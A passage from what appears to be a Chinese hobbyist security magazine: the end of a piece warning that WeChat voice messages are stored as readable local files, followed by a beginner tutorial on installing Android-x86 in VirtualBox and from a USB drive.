而且这些语音按名称排列顺序，你会发现你的语音基本都在一起。没有继续研究它的命名技巧。但是这个漏洞真是让人无语啊。那些乱码的“叉友”们，赶紧清理清理吧，万一泄密，后果不堪设想啊！虽然这个没有技术含量，但是我百度搜了一下，很多人都知道这个文件夹是存放微信语音记录的。但是基本都是问怎么将它导出、怎么备份，甚至有人问怎么恢复。实在糟，文件都在那，还用导出、备份、恢复？如果不在微信里面删除聊天记录，直接去文件夹删除语音文件，那么进入微信播放声音时就会提示播放失败（如图2）！


图2


图1

这里顺便说一下，我投稿前都去百度一下，看看网上有没有这方面的信息，如果有，那么就不会发，即使是自己发现的。网络可以学到的信息，再发表就有骗稿费的嫌疑，而且编辑大大也会 pass 掉的。为了成功率，各位有发稿思想的小菜可以参考一下。稿费无所谓，重要的是当看到自己的文章出现在学了多年的 X 档案上，那种激动的心情是无法表达的！

# 为“应用”年终，为“安卓”搭桥

安卓的势头已经不可小觑，如今它更是和苹果平分天下，形势水深火热。网络安全已悄然融合了移动互联这块肥肉，安卓系统和各大智能厂商的竞争也可谓一半海水一半火焰，当然其中最具代表性的就是苹果旗下的 iOS 系统了。正如我们所熟知的，苹果是海水，蕴藏无限机能，有打不死小强之称；而安卓是火焰，烧得正烈，有青出于蓝之威。

无论是手机，乃至平板电脑，甚至现今的手表都无法逃匿它的魔爪，更何况是生活中常伴你我左右的操作系统呢？这片不毛之地早已经被安卓开垦得方兴未艾了。当下我们就来学习如何在操作系统中安装安卓系统，其可以简单划分为两种情况下的安装：一种是宿主机中的安装，即在个人 PC 中安装；一种则是在 VM 等虚拟机中安装。

这段话写在本文章开文之前，这篇文章侧重点在于用户体验方面的安装，而剔去了经常见到的所谓“环境搭建”这方面。每篇文都在告诉大家一个方法，叙述一个过程，而这篇文章笔者写时意在两点：其一，是让大家通过 VM（Oracle VM VirtualBox）安装镜像的过程来感性地认识 VM 的使用；其次就是文章的第二小节，已在开头点明，文章同样的针对点是菜鸟恶补，老鸟飞过。

### 一、Eg之VM下的安卓驰骋

安卓官方专为 PC 版机子设计的 iso 镜像文件被称为 android-x86，我们无论在虚拟机中还是在宿主机中安装安卓系统都需要镜像文件的支持。首先到 http://android-x86.googlecode.com/ 中下载最新版的安卓程序，如 android-x86-4.0-eeepc-20120101.iso，网址打不开或打开延时的建议配合在线代理使用，如图01所示。接下来我们打开虚拟机 VM 来新建虚拟机。

在虚拟机主界面中选择“新建”，单击“下一步”来到“虚拟电脑名称和系统类型”配置对话框，这里我们随意给自己的系统起一个名称，例如“hackerxfiles-android”，之后在系统类型下的“操作系统”下拉选项中找到“Linux”，Linux 版本选择“Linux 2.2”，如图02所示。


之所以选择 Linux 系统，我想大家通过前面的学习已经不难理解，因为 android 是基于 Linux 上的一个 iso。接下来点击“下一步”来到“内存”选项对话框，这里要为我们的系统设备设置虚拟内存，一般数值为 512MB 就够了。点击下一步来到“虚拟硬盘”对话框，在这里我们勾选上“创建新的虚拟硬盘”，虚拟硬盘的创建位置选择宿主机硬盘。又一次下一步来到“调整本地磁盘大小”对话框中，如图03所示，这里我们要为系统调节 8GB 的硬盘空间，选择“下一步”结束新建虚拟机任务。


接下来我们要做的是让虚拟机在启动后优先运行下载好的安卓镜像文件，其操作过程为选中需要调整设置的虚拟机，单击菜单栏中的“设置”，弹出如图04所示的对话框。

从图中我们可以简单获得对话框的几个菜单栏名称，如常规、系统、显示、声音、网络等等。下面我们对它们进行简单调试。首先将选项卡切换到“系统”选项卡中，“系统菜单栏”下有三个基本事件，它们是主板、处理器、硬件加速。默认对话框为“主板”，大家勾选其中的“启用 IO APIC”复选框；接下来将事件对话框切换至“处理器”，将“启用 PAE/NX”复选框也选中；其次为“硬件加速”对话框，复选“启用 VT-x/AMD-v”“启用 Nested Paging”这两个复选框，如图05、06所示。最后我们将菜单栏切换到“Storage”下，在这里载入我们映像文件的地址，如图07所示。如果以上操作无误，那么就代表我们学会了使用 VirtualBox 来新建自己的第一个安卓虚拟机，接下来开始安装安卓系统之旅。


图05


图06


图07

首先选中刚才配置完毕的虚拟机，单击“开始”按钮，片刻时间我们可以看到镜像文件的设置界面，如图08所示。用键盘的方向光标将选项调整至“INSTALLation - Install Android-x86 to harddisk”列下，同时按下键盘 TAB 键来修改一些程序配置，如图09所示。


图08


图09

我们需要在“DEBUG=”后加上“DATA=sda1 SDCARD=sda2”这段语句，如图10所示。键入命令时要注意 DEBUG= 和 DATA 之间的空格，输入完毕按下键盘 ENTER 键进入创建系统分区界面，如图11所示。这里我们选择它的默认选项即“Create/Modify Partitions”，在弹出的分区界面中选择“NEW”——调整你需要盘的大小，点确定进入下一步（分区磁盘 NAME 处出现 sda1 名称表示成功）——选择“Bootable”，如图12所示。最后我们选择“WRITE”选项，输入“YES”让它写盘，如图13所示，最终配置界面如图14所示。


图10


图11


图12


图13


图14

若你已经成功抵达这步，那就意味着我们离成功只有咫尺之遥了。选择“quit”退出配置程序来到“Choose Partition”界面，选择其中我们刚才新建的“sda1 Linux VBox Harddisk”选项，在弹出的“Choose filesystem”选择系统文件类型对话框中选择第二项即“ext3”，为什么这么选在下边的文笔中我们会提到，如图15、16。


图15


图16

之后我们选择一路的“yes”或者“next”等，对话框切换至“Congratulations”则代表 Android-x86 已经安装成功。这时候我们可以选择直接运行 Android-x86，或者选择 Reboot 即移除镜像文件，等待系统重启后进入安卓系统。这里为了方便我们直接选择 Run Android-x86，键盘敲入 ENTER。


图17


图18

开始我们的虚拟机安卓之旅吧，成功界面如图17所示，安卓启动界面如图18所示。

（小提示：进入系统后我们要选择适合我们的系统语言，例如“简体中文”，之后就可以华丽丽地流淌于安卓4.0的浩海了，是不是很爽？如图19所示）


图19

### 二、Eg之宿主机中的安卓系统

这里说到的宿主机顾名思义代指我们的个人 PC。宿主机中安装安卓系统和虚拟机中的安卓，说白了原理是殊途同归的。那么我这里为什么还要提到呢？我是这样理解的：实现一件事情的途径有很多，而知识又是互相关联起来的网络体系，所以我们有必要学习了解更多的方法去拓宽自己的知识储备。回到我们的文章中，虚拟机中的安卓更多偏向于用系统盘去安装系统，而宿主机中安装安卓系统则是在没有光驱的情况下告诉我们怎么去做。很明显，它们又属于两个不同的知识层面。

因为这个实现起来有一定的硬件限制，所以我这里简单讲下实现方法。首先我们需要 android.iso，即任意一版本的安卓镜像文件，例如我们之前用到的 android-x86-4.0-eeepc-20120101.iso；其次还需要“U盘格式化工具”“iso转U盘的工具”，这两款软件我们可以选用“HP U盘格式化工具”和“Unetbootin”（当然后者使用 UltraISO 做启动盘也可以）。

如图20所示为 HP U盘格式化工具。如果我们在电脑中插入了 U盘或内存卡（大小为4G或以上），那么就会在“Device”设备中出现我们的设备；其次是“File system”文件系统选项，这里我们选择 FAT32 类型；最后勾选上“Format Option”格式选项中的 Quick Format 快速格式化复选框，单击 Start 执行。


图20

第二步打开 Unetbootin，其界面如图21所示，选中“光盘镜像”，在后面的 browser 按钮中选择你电脑中的安卓 iso 地址，最后在软件下面的“类型”编辑框下选择你的驱动器，如图22所示，单击“确定”，程序就会将安卓 iso 写入到你的 U盘中。如有下一步或其他重启提示，大家根据提示操作直接确定就可以。最后一步就是将我们制作好的带有安卓系统的 U盘或者内存卡插到宿主机（可以是笔记本、个人PC、其他设备等）的 USB 接口中。这里以 Windows XP 系统为例，我们只需要在 BIOS 中将系统第一启动项设置为 U盘等外来设备的优先启动即可。


图21


图22

学会了这种方法我们就可以拿着安卓系统走天下，走到哪里用到哪里。这种方法对硬件的要求也不比手机高那么多，所以只要官方一出最新的安卓系统，我们马上就可以一览眼福，从此不做安卓的门外汉。

小知识：FAT32 是 Windows 系统硬盘分区格式的一种。这种格式采用32位的文件分配表，使其对磁盘的管理能力大大增强，突破了 FAT16 对每一个分区容量只有2GB的限制。由于现在的硬盘生产成本下降，其容量越来越大，运用 FAT32 的分区格式后，我们可以将一个大硬盘定义成一个分区而不必分为几个分区使用，大大方便了对磁盘的管理。目前已被性能更优异的 NTFS 分区格式所取代。

（文中涉及的相关软件本期光盘已收录）